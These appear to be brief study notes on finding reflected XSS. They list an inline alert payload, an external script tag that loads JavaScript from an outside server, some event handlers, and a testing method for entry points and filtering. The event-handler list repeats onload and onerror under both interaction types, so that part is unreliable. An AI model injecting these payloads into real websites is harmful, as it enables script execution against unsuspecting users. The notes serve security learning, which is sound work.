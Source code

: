 
# Reflected XSS:

  

## How XSS works: When the input directly goes in a particular code section where javascript can be executed.

  

## Where you can execute script

### Script tag

* [Inline Script] <script>alert()</script>

* [External Script] <script src=https://myserver.com/jsthegreat.js></script>

## With event handlers:

* With or Without user interaction
  
   > With User Interaction
   * onload
   * onerror

   > Wihtout User Interaction
   * onerror 
   * onload
  

## Methodology:

* Identifying Entry Points:

> Parameters, Form Fields, Cookies, Request Headers, Error messages

* Check for allowed Characters:

> "'`<>()

> script, alert, confirm, prompt

* Check how the input is processed:

> Is there some type of sanitization
> Is there some type of escaping


